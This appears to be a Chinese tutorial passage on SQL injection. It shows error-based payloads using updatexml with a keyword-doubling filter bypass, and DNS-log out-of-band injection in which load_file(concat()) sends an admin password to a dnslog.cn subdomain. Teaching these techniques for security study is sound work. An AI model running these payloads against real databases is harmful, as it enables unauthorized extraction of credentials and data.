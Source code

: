 ## 5.报错注入
任何能引起数据库报错的输入，如引号

![3](https://cdn.jsdelivr.net/gh/zhangsx19/PicBed/images_for_blogs3.png)

```bash
试下' and 1=1111,看报错信息
'aandnd updatexml(1,concat(0x21,@@version,0x21),1)-- q#能让数据伴随报错一起显示
0x21->!的编码 能让我们更快地识别出信息
```

## 6.DNS_LOG注入
组合工具。利用DNS解析然后配合日志记录，将数据库里面的数据拿出来。

特点：能够将盲注变成显错注入。oob： out of bind  数据外带。
## （1）什么是DNS
把域名转换成IP地址的协议。域名->IP的外号
```
域名		ip地址
qq.com		12.34.56.78
taobao.com	34.55.88.99
```
```
a、网站搭建在服务器上
b、服务器就是电脑
c、访问网站的本质：浏览互联网上某台电脑上的某个文件
```
例如，修改host文件(本地DNS服务器)，我们输入完http://www.chenchan.com这个域名之后，咱们电脑会先访问host文件，就会将www.chenchan.com解析成192.168.189.128，然后访问这个IP。

## （2）子域名和DNS日志记录
[DNS解析记录的日志网站](http://www.dnslog.cn/),作用：可以申请一个域名，然后会记录下任何访问了这个域名和子域名的IP
```
fefaad.dnslog.cn 都有记录。
database.fefaad.dnslog.cn   也有记录
```
![20220413162258](https://cdn.jsdelivr.net/gh/zhangsx19/PicBed/images_for_blogs20220413162258.png)
## (3)注入方法
关键函数：
```
load_file() # 作用是：读文件
concat() #  作用是 拼接字符串
select load_file() #读取文件内容
```
命令：
```
select load_file(concat(‘//’,(数据库语句),’.域名/1.txt’))
select load_file(concat('//',(select password from admin limit 0,1),'.qtm0xb.dnslog.cn/1.txt'))
```
如图，发现没有回显点后，先输入and (),要执行括号里的语句:`select load_file(concat(‘//’,(数据库语句),’.域名/1.txt’))`注意一定要带一个文件，文件是什么无所谓，但loadfile是读取文件的，必须在mysql命令里写一个文件名上去。
